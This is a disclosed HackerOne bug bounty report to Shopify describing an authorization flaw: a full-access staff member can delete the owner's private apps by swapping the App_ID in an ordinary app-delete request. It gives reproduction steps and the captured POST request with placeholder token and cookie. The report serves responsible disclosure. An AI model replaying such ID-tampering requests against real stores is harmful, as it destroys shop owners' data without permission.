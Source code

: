 # Staff member can delete Private Apps

## Report Details
- **Report ID**: 155704
- **URL**: https://hackerone.com/reports/155704
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-01T01:21:34.225Z
- **Disclosed**: 2016-08-09T00:26:01.123Z

## Reporter
- **Username**: indoappsec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
Hi Team,

Bug description : I noticed that Full access staff member doesn't have access to private Apps Even he has access to Apps. But a Staff member can actually Delete Private Apps through the normal App link by changing the ID. 

Steps to reproduce : 
1. Create A shop and install any app. Also create private App. 
2. Add a staff member with full access .
3. Now Login from staff member and go to app section from his account.You will see that he is not able to access private Apps yet.
4. Now Try to delete the normal App and Capture the request.The request will look like the following request : 

Vulnerable HTTP request : 

POST /admin/apps/[App_ID]HTTP/1.1
Host: [your_store].myshopify.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://vijaygangani1110store.myshopify.com/admin/apps
Cookie: [Cookie]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 132

_method=delete&authenticity_token=[Token]

5. Change the App ID to private App ID and you will see from Owners account that the private App has been Deleted. 

App_ID parameter is vulnerable here. Server doesn't check the permissions and let the staff member Delete the App.


Let me know if you need any other help from my side. 

Best Regards !
Vijay Kumar 




## Attachments
No attachments

